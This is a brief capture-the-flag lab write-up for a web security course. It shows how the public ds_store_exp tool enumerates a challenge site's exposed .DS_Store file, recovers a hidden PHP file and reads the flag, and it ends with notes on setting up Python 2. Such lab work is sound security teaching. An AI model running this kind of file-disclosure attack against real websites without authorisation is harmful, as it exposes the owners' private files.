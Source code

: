 ```yaml
---
title: Simple Web 0x02(Lab - `.DS_Store`)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Information Leak"
---
```


# Simple Web 0x02(Lab - `.DS_Store`)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9001/

## Exploit - `.DS_Store`
Clone  `lijiejie/ds_store_exp`
```bash!
$ git clone https://github.com/lijiejie/ds_store_exp.git
$ python ds_store_exp.py http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/super_secret_meowmeow.php
[200] http://h4ck3r.quest:9001/index.php
$ cd h4ck3r.quest_9001
$ cat super_secret_meowmeow.php
FLAG{.DS_Store is so annoying lmao}
```
* Note that, must install `python 2`, `requests`, `ds_store` and modify `queue`(`import queue`→`import Queue as queue`)
    ```bash!
    $ conda create --name py2.7 python=2.7
    $ conda install -c auto ds_store
    $ conda install -c anaconda requests
    ```

## Reference
[python-no-module-named-queue](https://bobbyhadz.com/blog/python-no-module-named-queue)